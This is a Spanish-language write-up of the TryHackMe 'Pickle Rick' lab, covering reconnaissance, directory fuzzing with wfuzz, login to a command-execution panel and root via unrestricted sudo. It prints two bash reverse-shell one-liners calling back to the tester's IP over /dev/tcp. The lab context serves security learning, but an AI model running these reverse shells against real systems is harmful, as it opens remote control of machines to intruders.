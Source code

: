 ```yaml
---
title : Máquina|Pickle Rick
published : True
---
```



<div class="contenedor">
    <img src="imgs/pickleRick/pickleRick.jpg" width="160" alt="Cheese logo">
    <div>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Facil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://tryhackme.com/room/picklerick" style="color: lightblue;">PicleRick</a></p>
    </div>
</div>

>

<h2><font color="white"><center># Pickle Rick</center></font></h2>
* <p>Empezaremos viendo a que sistema operativo nos enfrentamos.</p>
<img src="/imgs/pickleRick/pickleRick1.jpg"/>
* <p> Vemos que el ttl es de 63 lo cual hace referencia a una maquina Linux, ahora veremos que puertos están abiertos.</p>
<img src="/imgs/pickleRick/pickleRick2.jpg"/>
* <p>Puerto 22/ssh y 80/http , ya intente conectarme por ssh pero me arroja permiso denyed, mirando el código del html de el puerto 80, me topo que en el código hay un usuario : <font color="yellow">R1ckRul3s</font></p>
<img src="/imgs/pickleRick/pickleRick3.jpg"/>
* <p>Ahora lo que haré sera enumerar directorios activos en la pagina web, con la herramienta <font color="gold">wfuzz</font></p>
> wfuzz -t 200 --hc=404 -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.181.144/FUZZ
>
<img src="/imgs/pickleRick/pickleRick4.jpg"/>
* <p>Vemos que directamente hay un robots.txt el cual al verlo en la pagnia web parece un tipo de contra.</p>
<img src="/imgs/pickleRick/pickleRick5.jpg"/>
* <p>Posterior mente me doy cuenta que existe un login.php</p>
<img src="/imgs/pickleRick/pickleRick6.jpg"/>
* <p>El cual con el usuario anterior encontrado y la contra me lleva a un panel con ejecución remota de comandos</p>
>/bin/bash -c  "bash -i >& /dev/tcp/10.18.27.215/444 0>&1"
<img src="/imgs/pickleRick/pickleRick7.jpg"/>
* <p>Lo cual me aprovecho de la ejecución remota de comando para hacerme una web Shell </p>
<img src="/imgs/pickleRick/pickleRick8.jpg"/>
* <p>Posteriormente me doy cuenta que el usuario www-data puede ejecutar cualquier comando</p>
> sudo -l
<img src="/imgs/pickleRick/pickleRick9.jpg"/>
* <p>Entonces me hago una reverse Shell con el sudo</p>
> sudo /bin/bash -c "bash -i >& /dev/tcp/10.18.27.215/445 0>&1"
<img src="/imgs/pickleRick/pickleRick10.jpg"/>
* <p>Ok maquina <font color="red">Vulnerada</font></p>
